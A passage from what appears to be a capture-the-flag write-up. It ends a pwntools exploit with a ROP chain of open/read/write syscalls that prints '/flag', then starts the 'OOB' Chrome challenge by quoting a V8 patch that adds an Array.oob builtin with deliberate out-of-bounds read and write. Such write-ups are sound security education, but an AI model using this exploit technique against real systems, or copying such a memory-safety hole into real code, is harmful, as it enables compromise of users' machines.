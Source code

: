 ```python
         p64(pop_rdx) + p64(0x100) +
         p64(syscall) +
         p64(pop_rax) + p64(2) +
         p64(pop_rdi) + p64(buf) +
         p64(pop_rsi) + p64(0) +
         p64(pop_rdx) + p64(0) +
         p64(syscall) +
         p64(pop_rax) + p64(0) +
         p64(pop_rdi) + p64(3) +
         p64(pop_rsi) + p64(buf) +
         p64(pop_rdx) + p64(100) +
         p64(syscall) +
         p64(pop_rax) + p64(1) +
         p64(pop_rdi) + p64(1) +
         p64(pop_rsi) + p64(buf) +
         p64(pop_rdx) + p64(100) +
         p64(syscall))

  edit(0x3000,rop)
  r.sendline("A") # trigger on exit()
  time.sleep(0.1)
  r.send("/flag\x00")
  r.interactive()


```

### OOB
Given a Chrome binary and a patch file, we were asked to pwn a modified Chrome browser.
#### Vulnerability
First we checked the patch file:


```diff
..................
+BUILTIN(ArrayOob){
+    uint32_t len = args.length();
+    if(len > 2) return ReadOnlyRoots(isolate).undefined_value();
+    Handle<JSReceiver> receiver;
+    ASSIGN_RETURN_FAILURE_ON_EXCEPTION(
+            isolate, receiver, Object::ToObject(isolate, args.receiver()));
+    Handle<JSArray> array = Handle<JSArray>::cast(receiver);
+    FixedDoubleArray elements = FixedDoubleArray::cast(array->elements());
+    uint32_t length = static_cast<uint32_t>(array->length()->Number());
+    if(len == 1){
+        //read
+        return *(isolate->factory()->NewNumber(elements.get_scalar(length)));
+    }else{
+        //write
+        Handle<Object> value;
+        ASSIGN_RETURN_FAILURE_ON_EXCEPTION(
+                isolate, value, Object::ToNumber(isolate, args.at<Object>(1)));
+        elements.set(length,value->Number());
+        return ReadOnlyRoots(isolate).undefined_value();
+    }
+}
.......................

```
As we can see there's a new builtin function in the array object, call `oob`, which will do the following:
* `arr.oob()` will return element `arr[arr.length]`, which is a out-of-bound read vulnerability
* `arr.oob(val)` will write `val` to `arr[arr.length]`, which is a out-of-bound write vulnerability
